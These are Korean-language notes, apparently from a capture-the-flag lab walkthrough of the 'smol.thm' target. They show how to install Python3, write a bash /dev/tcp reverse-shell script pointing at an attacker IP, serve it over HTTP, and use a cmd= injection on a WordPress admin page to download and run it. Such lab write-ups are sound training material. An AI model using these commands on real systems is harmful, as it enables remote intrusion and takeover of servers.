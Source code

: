 ````markdown
## Python3 설치 및 리버스 쉘 서버 실행법

1. **Python3 설치**

```bash
sudo apt update
sudo apt install python3
```
````

2. **리버스 쉘 스크립트 작성**

```bash
# 공격자 ip
echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.8.136.212/6666 0>&1'" > rev.sh
```

3. **공격자가 악성 스크립트 배포를 위한 서빙**

```bash
python3 -m http.server 6666
```

- 현재 디렉터리 파일을 6666 포트로 서비스함

4. **타겟에서 스크립트 다운로드**

```
http://www.smol.thm/wp-admin/index.php?cmd=wget http://10.8.136.212:6666/rev.sh -O /tmp/rev.sh
```

5. **타겟에서 리버스 쉘 실행**

```
http://www.smol.thm/wp-admin/index.php?cmd=bash /tmp/rev.sh
```
